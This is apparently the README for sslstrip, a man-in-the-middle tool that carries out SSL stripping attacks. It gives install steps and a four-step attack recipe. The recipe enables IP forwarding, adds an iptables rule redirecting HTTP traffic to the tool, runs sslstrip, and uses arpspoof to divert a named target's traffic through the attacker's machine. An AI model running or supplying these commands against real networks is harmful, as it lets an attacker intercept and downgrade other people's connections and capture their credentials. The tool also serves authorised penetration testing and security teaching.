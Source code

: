 sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

Ported from Python v2 to v3 by Jay Townsend (theHarvester and Discover).
* [![Twitter Follow](https://img.shields.io/twitter/follow/jay_townsend1.svg?style=social&label=Follow)](https://twitter.com/jay_townsend1) Jay "L1ghtn1ng" Townsend @jay_townsend1

Installing:
   pip3 install -r requirements.txt
   Run 'python setup.py install' as root to install or run it out of the directory.  

Running:
   sslstrip can be run from the source base without installation.  
   Run 'python3 sslstrip.py -h' as a non-root user to get the command-line options.

   1. Enable IP forwarding (as root):
      echo "1" > /proc/sys/net/ipv4/ip_forward

   2. Setup iptables to intercept HTTP requests (as root):
      iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
	
   3. Run sslstrip with the options you prefer.

   4. Run arpspoof to redirect traffic to your machine (as root):
      arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>
